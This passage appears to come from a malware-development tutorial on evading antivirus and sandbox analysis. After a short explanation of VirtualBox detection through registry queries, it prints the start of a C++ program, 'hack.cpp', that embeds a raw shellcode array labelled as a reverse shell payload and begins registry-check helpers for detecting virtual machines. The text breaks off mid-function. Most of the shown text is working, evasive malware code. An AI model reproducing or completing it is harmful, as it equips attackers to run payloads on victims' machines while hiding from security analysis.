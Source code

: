 This function logic is also quite simple. We check value of the registry key via `RegQueryValueExA` in which the result of function `RegOpenKeyExA` is the first parameter.    

I will only consider `Oracle VirtualBox`. For another VMs/sandboxes the tricks is the same.    

### practical example   

So let's go to consider practical example. Let's take a look at the complete source code:    

```cpp
/*
* hack.cpp
* classic payload injection with 
VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
```